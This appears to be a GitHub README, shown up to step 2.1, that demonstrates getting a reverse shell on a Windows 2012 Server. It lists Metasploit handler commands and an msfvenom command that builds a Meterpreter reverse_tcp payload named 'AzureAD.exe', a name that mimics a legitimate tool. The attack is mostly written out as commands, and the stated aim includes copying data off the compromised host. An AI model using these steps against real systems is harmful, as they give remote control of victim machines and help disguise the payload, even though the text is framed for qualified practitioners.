 # theperfectreverseshell
This is a demonstration of obtaining a reverse shell on a Windows 2012 Server. The aim of obtaining access to view and copy the output produced by downloading certain tools to the compromised host to the attacking machine and then run a script to compare the produced data against a pre-defined list of data

### The following steps are provided to obtain a reverse shell on a Windows 2012 Server. The steps performed, were carried out in a secure environment. Please ensure, if you do choose to replicate this activity that you either do so as qualified practitioner or that you have a qualified practitioner with you.

# Step 1 : Create a reverse handler using metasploit. To do so, you run the following commands -
  *1.1 - sudo msfconsole
  *1.2 - use multi/handler
  *1.3 - configure payload (preferable : windows/meterpreter/rerverse_tcp)
  *1.4 - ensure that the "LHOST" and "LPORT" settings are correctly configured. You may do so, by running : set LHOST <IP Address of Host> and the set LPORT <port you would like to listen on>
  *1.5 - once this has been completed, you may run : run -j or exploit -j at the msf prompt. This will create a persistent listener that will exit once you tell it to, it a disconnect from the client(victim). After doing so, you should see the following screen :
  
  ![image](https://user-images.githubusercontent.com/101802030/225633287-455e3c11-18a9-4bb8-b29f-a2d65dc23c86.png)

  
  
  *2.1 - (On a Kali Linux machine) sudo msfvenom --platform windows -p windows/meterpreter/reverse_tcp LHOST=<IP of Address of host> LPORT=<local port to listen on> -f <format> exe -o <output> ~/Downloads/AzureAD.exe
  


